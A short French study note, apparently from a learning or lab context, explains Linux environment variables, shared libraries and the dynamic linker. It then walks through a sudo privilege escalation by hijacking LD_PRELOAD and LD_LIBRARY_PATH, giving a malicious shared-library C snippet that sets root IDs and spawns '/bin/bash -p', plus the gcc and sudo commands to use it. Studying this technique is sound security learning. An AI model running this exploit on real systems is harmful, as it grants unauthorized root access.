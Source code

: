 Définition :

Une var d'environnement c'est juste une variable pour chaque utilisateur. En gros chaque env(user) possède ses propres var d'env. Y'a quoi dedans ? ca dépent de la var.

Bibliothèque partagée/dynamique :

C'est une librairie qui peut être utilisée par plusieurs programmes en même temps sans interférence. Ces librairies ne sont pas entièrement dans le fichier binaire final. Seul le nécessaire est présent.

Programme statique :

Programme qui ne charge pas de bibliothèque dynamique. Tout est entièrement dans le fichier binaire.

Dynamic linker :  
Relie les bibliothèques à un programme. Travail facilité grâce à l'option -fPIC.

-fPIC permet de situer la bibliothèque partagé. c'est une optimisation. En gros, si on lance deux fois le même programme, les deux utiliseront la même copie de la bibliothèque. Par contre, si deux programmes différents utilisent la même bibliothèque, ils auront chacun leur propre copie pour leur propre nécessité. Tout cela facilite la tâche pour le dynamic linker.

Liste des variables d'env avec vulnérabilité :

LD_PRELOAD : Charge des bibliothèques partagées spécifiées pour qu'elles chargent avant toute les autres. Donc par exemple si je créé une fonction print() qui stock des variables (rien a voir avec le vrai print) ce serai la fonction de ma bibliothèque dans LD_PRELOAD qui sera prioritaire.

Exemple de vulnérabilité :

J'ai les permissions pour executer un programme spécifique en sudo (que j'ai vu en faisant sudo -l).

Je regarde quelles librairies sont utilisées donc : ldd emplacement/du/programme.

Je fais gcc -o /tmp/nom_d'une_library_utilisée -shared -fPIC /home/user/tools/sudo/library_path.c

-shared pour créer un .so (shared object) partagé. -fPIC pour situer la bibliothèque dynamiquement.

cette commande permet de créer une lib qui a le meme nom qu'un lib que le prog utilise déja pour la remplacer. dans cette lib, on mettra une fonction malvaillante qui aura le meme nom qu'un fonction deja utilisé dans le prog pour la remplacer. Exemple :

#include <stdio.h>  
#include <sys/types.h>  
#include <stdlib.h>

void _init() {  
        unsetenv("LD_PRELOAD");  
        setresuid(0,0,0);  
        system("/bin/bash -p");  
}

ensuite, on lance le prog : sudo LD_LIBRARY_PATH=/tmp nom_du_prog ld_library_path dit où chercher la lib partagé (avec la fonction malvaillante) donc dans ce cas ci, dans tmp
